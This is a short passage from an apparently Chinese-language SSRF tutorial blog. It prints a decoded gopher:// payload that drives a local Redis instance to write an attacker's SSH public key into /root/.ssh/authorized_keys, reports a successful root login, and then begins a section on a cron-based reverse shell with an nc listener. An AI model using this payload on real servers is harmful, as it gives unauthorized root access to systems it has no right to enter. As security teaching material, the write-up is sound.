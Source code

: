 payload 解码为：

```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$401



ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/Xn7uoTwU RX1gYTBrmZlNwU2KUBICuxflTtFwfbZM3wAy/FmZmtpCf2UvZFb/MfC1i......2pyARF0YjMmjMevpQwjeN3DD3cw/bO4XMJC7KnUGil4ptcxmgTsz0UsdXAd9J2UdwPfmoM9




*4
$6
config
$3
set
$3
dir
$11
/root/.ssh/
*4
$6
config
$3
set
$10
dbfilename
$15
authorized_keys
*1
$4
save
*1
$4
quit

```

payload由joychou的反弹shell修改而来，主要就是替换了写入文件的位置和文件内容。然后修改文件的长度。

然后尝试登陆，输入创建密钥的密码后，登陆成功。

![1560327409402](https://misakikata.github.io/2019/06/SSRF/1560327409402.png)

2）利用redis写定时任务来反弹shell

既然提到反弹shell，就需要利用一台外网主机。此处使用了nc做端口监听。
